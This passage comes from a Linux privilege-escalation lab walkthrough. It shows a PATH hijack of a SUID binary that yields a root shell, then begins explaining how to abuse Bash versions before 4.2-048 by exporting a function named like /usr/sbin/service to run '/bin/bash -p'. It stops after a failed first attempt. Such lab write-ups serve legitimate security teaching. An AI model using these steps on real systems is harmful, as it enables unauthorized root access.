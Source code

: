 ```
user@debian:~$ PATH=.:$PATH
user@debian:~$ /usr/local/bin/suid-env
root@debian:~#
```

## Task14: SUID / SGID Executables - Abusing Shell Features (#1):

### Applicable for Bash versions < 4.2-048

The `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env` except that it uses the `absolute path` of the `service` executable (/usr/sbin/service) to start the `apache2 webserver`.
```
$ strings /usr/local/bin/suid-env

            X --- snip --- X

service apache2 start

$ strings /usr/local/bin/suid-env2

            X --- snip --- X

/usr/sbin/service apache2 start     ---> Absolute path

```
So, here, what we will do is: we would change `/usr/sbin/service` to `/bin/bash -p` 
=> It can only be done in bash version [ **Bash versions < 4.2-048** ]
```
$ /bin/bash --version

GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

                  X --- snip --- X
```
> In `Bash versions < 4.2-048`, it is possible to ***define shell functions with names that resemble file paths***, then ***export those functions*** so that they are ***used*** `instead of any actual executable` at that file path.

So, How can we do it? 

### Step1:
Is it like this??
```diff
$ $ /usr/sbin/service="/bin/bash -p"

- zsh: no such file or directory: /usr/sbin/service=/bin/bash -p
```
#### NOPE!!!
